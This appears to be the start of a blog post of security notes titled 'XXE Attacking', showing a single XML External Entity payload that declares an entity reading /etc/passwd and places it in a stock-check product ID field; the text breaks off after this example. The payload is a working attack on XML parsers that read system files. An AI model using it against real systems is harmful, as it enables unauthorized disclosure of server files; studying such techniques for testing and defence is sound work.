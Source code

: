```yaml
---
layout: post
title: "XXE Attacking"
date: 2025-09-17
---
```


## Technique
### + Read File
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```
### 
